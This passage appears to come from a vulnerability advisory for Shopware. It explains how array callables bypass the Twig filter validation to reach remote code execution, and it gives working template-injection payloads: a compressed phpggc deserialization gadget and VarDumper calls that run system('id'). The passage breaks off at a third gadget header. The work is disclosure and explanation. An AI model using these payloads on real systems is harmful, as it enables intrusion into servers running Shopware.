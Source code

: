 
At [1], the `$function` parameter contains the argument supplied to the filter. For example, it may refer to `funcname""` in `{{ array|filter("funcname") }}` or the closure (a.k.a. arrow function) `el => el != 'exclude'` in `{{ array|filter(el => el != 'exclude') }}`. Taking a closer look at the condition at [1], it can be observed that non-string arguments passes the validation check.
Notice that the validation check is only invoked if $function is a string. As such, non-string arguments may be passed to [2] due to the absence of type enforcement at [1]. At [2], variable functions (i.e. $function($value)) is invoked, thereby allowing arbitrary PHP functions to be executed. Largely identical code pattern can also be observed for the reduce() filter (at [3] and [4]), filter() filter (at [5] and [6]) and sort() filter (at [7] and [8]).

A common mistake that developers make is assuming that the callable type refers to a string type. This is untrue, and it is well documented in the PHP Manual:

A method of an instantiated object is passed as an array containing an object at index 0 and the method name at index 1. Accessing protected and private methods from within a class is allowed. Static class methods can also be passed without instantiating an object of that class by either, passing the class name instead of an object at index 0, or passing ClassName::methodName.

This means that all of the following variable function calls are valid:

```
// Type 1: Simple callback -- invokes system("id")
$func = "system";
$func("id")

// Type 2: Static class method call -- invokes Class::staticMethod($arg)
$func = $array("Class", "staticMethod");
$func($arg);

// Type 3: Object method call -- invokes $obj->method($arg)
$func = $array($obj, "method"));
$func($arg);
```

Going back to [1], if $arrow is an array instead of a string or closure, the validation check to prevent invocation of unsafe functions is completely skipped. Multiple static class methods within Shopware’s codebase and its dependencies were found to be suitable gadgets for achieving for remote code execution:

```
// Gadget 1: Using \Shopware\Core\Framework\Adapter\Cache\CacheValueCompressor::uncompress() to invoke unserialize()
// Serialized payload generated using the phpggc tool: ./phpggc -b Monolog/RCE8 system 'id'
// Compressed payload is generated using: 
// $ php -r 'echo gzcompress(shell_exec("php phpggc Monolog/RCE8 system id"));' | hexdump -v -e '"\\\x" 1/1 "%02X"'
{{ ["\x78\x9C\x65\x90\x4D\x4F\xC3\x30\x0C\x86\x77\xE6\x67\xF8\xC8\xA9\x49\x61\x30\xE7\x86\x86\xE0\x50\x34\x09\xAE\x93\xA6\x7E\x78\xC5\x53\xDA\x4C\x49\x3A\xF1\xA1\xFE\x77\x92\x06\x8D\xA2\xDD\xEC\xF7\x8D\x5F\x3F\xCE\x06\xE5\x3D\xC2\x8B\xE9\x8D\x36\xED\xF6\xB9\xEC\x1B\x4D\x76\xFB\x64\xCD\x70\xFC\x6D\x00\x05\x7E\x3B\x14\x02\x61\x71\xBD\x78\x4F\xA2\x03\x55\x46\x9D\x31\x53\x1B\x94\xAB\xCB\x88\x87\x61\xBF\x27\x7B\xCE\x58\x4E\x19\xD9\x3C\x03\x94\xC5\x5C\x05\x35\x9F\xD4\x6A\x1A\x78\xE3\x2F\x02\xC5\x28\xA2\x71\x33\x33\x0A\xEE\xD8\x47\x27\x0B\xCE\x6A\x66\xFC\x23\x11\x77\x7F\x24\x85\x69\x5F\xA9\x36\xB6\x01\x94\x71\xFB\x2D\x82\xA6\x13\x69\x50\x8F\x28\x66\xC4\x45\x14\x71\x4D\xD5\xD0\x82\x9A\x9E\x75\xFC\x41\x4D\xAC\x25\x02\x87\x62\x1C\xCF\x30\xDC\xB3\xE7\x52\x07\xCA\xA0\x57\x09\x33\xF1\x1F\xAD\xA9\xC9\x39\x93\xFE\x26\x4F\x44\xC1\x0D\x79\x2D\xF9\x9D\xA9\x0E\x54\xFB\xDD\xA9\x8C\x7E\xBA\x2F\xCC\x51\xDF\xC4\x4E\x86\x6E\x89\xE0\x3E\x9D\xA7\x2E\xEE\x1B\xC7\xAB\x1F\x89\x25\x7F\x63"] | map(['\\Shopware\\Core\\Framework\\Adapter\\Cache\\CacheValueCompressor', 'uncompress']) | length }}

// Gadget 2: Using \Symfony\Component\VarDumper\Vardumper::setHandler() and \Symfony\Component\VarDumper\Vardumper::dump() to invoke system("id"):
{{ ['system'] | filter(['\\Symfony\\Component\\VarDumper\\VarDumper', 'setHandler']) | length }}
{{ ['id'] | filter(['\\Symfony\\Component\\VarDumper\\VarDumper', 'dump']) | length }}

// Gadget 3: Using \Symfony\Component\Process\Process::fromShellCommandline() to invoke proc_open("id > /tmp/pwned.txt"):
```